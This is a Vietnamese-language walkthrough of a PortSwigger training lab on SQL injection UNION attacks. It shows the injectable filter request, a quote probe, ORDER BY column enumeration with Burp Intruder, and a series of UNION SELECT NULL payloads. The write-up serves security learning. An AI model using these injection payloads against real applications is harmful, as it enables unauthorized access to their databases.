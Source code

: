 # [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để tìm số cột trong bảng.

quá trình:
1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
	- Kết quả: ![07089cd66d55db47eaddedb656fc5d33.png](../../../../../../_resources/07089cd66d55db47eaddedb656fc5d33.png)
	- Lỗi từ số 4 => có 3 cột.
4. Nhưng chưa được vì đề bài có dòng `To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.`
5. Dùng kĩ thuật khác đó là `submitting a series of UNION SELECT payloads specifying a different number of null values:`:
	- `' UNION SELECT NULL--`
	- `' UNION SELECT NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL--`
	- etc.
6. Bằng burpsuite:
	- Gửi request vào intruder
	- Positions: `GET /filter?category='+UNION+SELECT+NULL§§-- HTTP/1.1`
	- Payload: ![e788170073f0d37546dad8c32149889c.png](../../../../../../_resources/e788170073f0d37546dad8c32149889c.png)
	- Results: ![17d567ea5661cccc37c8fc54702c85e3.png](../../../../../../_resources/17d567ea5661cccc37c8fc54702c85e3.png)
=> Solved